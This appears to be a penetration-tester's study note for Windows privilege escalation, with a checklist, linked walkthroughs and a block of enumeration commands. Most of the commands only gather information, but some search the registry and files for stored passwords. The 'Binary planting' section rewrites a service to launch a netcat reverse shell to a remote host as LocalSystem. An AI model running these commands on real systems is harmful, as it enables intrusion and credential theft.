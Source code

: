 
# Guide

1. Repeat below under every single privilege increase
2. Run [[#Default Commands]]
3. Locate [[Important Enumeration Information]]
4. Run [[#Extra Enumeration Commands]] if nothing is found.



# Table of Contents

1. If a binary is found within a users directory it is likely exploitable.
2. General guide which lists a vast array of exploits and methods of exploitation, see [Privilege Escalation - Windows](https://mysecurityjournal.blogspot.com/p/client-side-attacks.html)
3. See [[Watson]] to find operating system vulnerabilities  
4. Flags may be within network drives, try mapping, see [[Network Drives]]:
5. If any [[Valuable Files#SAM and System Files]] are found, see [[SamDump]]
6. If you have a hash which you cannot crack, see [[Passing the Hash]]
7. If internal ports are found they can be probed by [[Powercat]] 

#### Walkthroughs

1. [OSCP\_Cheat\_sheet/Windows Privilege Escalation Techniques.md at main · xXxhagenxXx/OSCP\_Cheat\_sheet · GitHub](https://github.com/xXxhagenxXx/OSCP_Cheat_sheet/blob/main/Windows%20Privilege%20Escalation%20Techniques.md)
2. [Windows Privilege Escalation Guide](https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/)
3. [Privilege Escalation - Windows · Total OSCP Guide](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html)
# Default Commands 

1. `whoami`, see [[Who Am I Enumeration]]
2. `systeminfo`
3. `ipconfig`
4. `arp /a`, see [[Finding Additional Hosts]]
5. `net users`, see [[Finding Users and Groups]]
6. `net share`, see [[Finding Shared Resources]]
7. [[windows-privesc-check]]
8. [[WinPeas]]
9. [[Windows Exploit Suggester - Next Generation (WES-NG)]]




# Extra Enumeration Commands

```
// What system are we connected to?
Get-WmiObject -Class win32_OperatingSystem | select Version,BuildNumber
Get-WmiObject -Class win32_Process 
Get-WmiObject -Class win32_Service
Get-WmiObject -Class win32_Bios
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"

// Get tokens and privileges 
whoami /priv
Get-WmiObject win32_useraccount | Select name,sid

// Get the hostname and username (if available)
hostname
echo %username%

// Get users
net users
net user [username]

// Get groups
get-LocalGroup | ft Name, SID

// Networking stuff
ipconfig /all

// Printer?
route print

// ARP-arific
arp -A

// Which protection settings enabled
Get-MpComputerStatus

// Active network connections
netstat -ano

// Firewall fun (Win XP SP2+ only)
netsh firewall show state
netsh firewall show config
netsh advfirewall show currentprofile
netsh advfirewall firewall show rule name=all

// Scheduled tasks
schtasks /query /fo LIST /v

// Running processes to started services
tasklist /SVC
net start

// Driver madness
DRIVERQUERY

// WMIC fun (Win 7/8 -- XP requires admin)
wmic /?
# Use wmic_info script!

// [[Saved Credentials]] 
cmdkey /list

// WMIC: check patch level
wmic qfe get Caption,Description,HotFixID,InstalledOn
wmic service get name,displayname,pathname,startmode
wmic service get name,displayname,pathname,startmode |findstr /i "auto"
wmic product get name, version, vendor

// Search pathces for given patch
wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr /C:"KB.." /C:"KB.."

// AlwaysInstallElevated fun
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated

// AutoRun (See [[AutoRun SysInternals]])
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
reg query HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\StartupApproved\Run

// [[Registry Passwords]] 
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s

// Other commands to run to hopefully get what we need
dir /s *pass* == *cred* == *vnc* == *.config*
findstr /si password *.xml *.ini *.txt
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s

// Service permissions
sc query
sc qc [service_name]
sc qc dllsvc (See [[DLL Hijacking]] )
sc qc regsvc (If NT Auth, see [[RegSVC Writable]])
sc qc filepermsvc (If SYSTEM SERVICE_START_NAME, see [[Insecure Service Executables]])

// Accesschk stuff
accesschk.exe /accepteula (always do this first!!!!!)
accesschk.exe /accepteula -uwcqv user daclsvc
accesschk.exe -ucqv [service_name] (requires sysinternals accesschk!)
accesschk.exe -uwcqv "Authenticated Users" * (won't yield anything on Win 8)
accesschk.exe -ucqv [service_name]
accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"

// Find all weak folder permissions per drive.
accesschk.exe -uwdqs Users c:\
accesschk.exe -uwdqs "Authenticated Users" c:\

// Find all weak file permissions per drive.
accesschk.exe -uwqs Users c:\*.*
accesschk.exe -uwqs "Authenticated Users" c:\*.*

// Binary planting
sc config [service_name] binpath= "C:\nc.exe -nv [RHOST] [RPORT] -e C:\WINDOWS\System32\cmd.exe"
sc config [service_name] obj= ".\LocalSystem" password= ""
sc qc [service_name] (to verify!)
net start [service_name]

driverquery /v /fo csv
driverquery.exe /v /fo csv | ConvertFrom-CSV | Select Object ‘Display Name’, ‘Start Mode’, Path
```